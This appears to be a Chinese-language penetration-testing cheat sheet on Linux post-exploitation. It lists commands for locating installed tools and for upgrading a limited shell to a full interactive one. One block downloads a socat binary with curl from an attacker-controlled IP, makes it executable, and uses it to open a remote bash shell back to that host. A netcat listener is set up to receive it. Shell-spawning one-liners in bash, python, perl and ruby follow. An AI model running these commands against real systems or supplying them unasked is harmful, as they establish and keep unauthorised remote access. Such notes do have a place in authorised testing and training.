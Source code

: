 ## 6.2 测试提权关键命令
```
which bash sh python python2 python3 perl ruby lua gcc cc make wget curl nc
```
```
locate bash sh python python2 python3 perl ruby lua gcc cc make wget curl nc
```
```
whereis bash sh python python2 python3 perl ruby lua gcc cc make wget curl nc
```
查看 Ubuntu 上已安装的软件
```
dpkg --get-selections | grep package_name
```
查看 centos和redhat上已安装的软件
```
rpm -qa|grep package_name
```
## 6.3、升级shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color 
Ctrl+Z
stty raw -echo
fg
reset
stty rows 46 columns 188
```

```
没有装wget,所以用curl
curl -O http://192.168.253.138:8082/socat
chmod +x socat

nc -vlp 9998
HOME=/dev/shm ./socat tcp:192.168.253.138:9998 exec:'/bin/bash -li',pty,stderr,sigint,sighup,sigquit,sane

使用script：（没太大必要）
script -qc bash /dev/null

stty raw -echo
fg
```
#### bash shell
```
/bin/sh -i
/bin/bash -i
echo os.system('/bin/bash')
```
#### python
```python2
python -c 'import pty; pty.spawn("/bin/bash")'
```
---
```python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#### perl
```
perl -e 'exec "/bin/bash";'
```
#### ruby
```
exec "/bin/bash"
```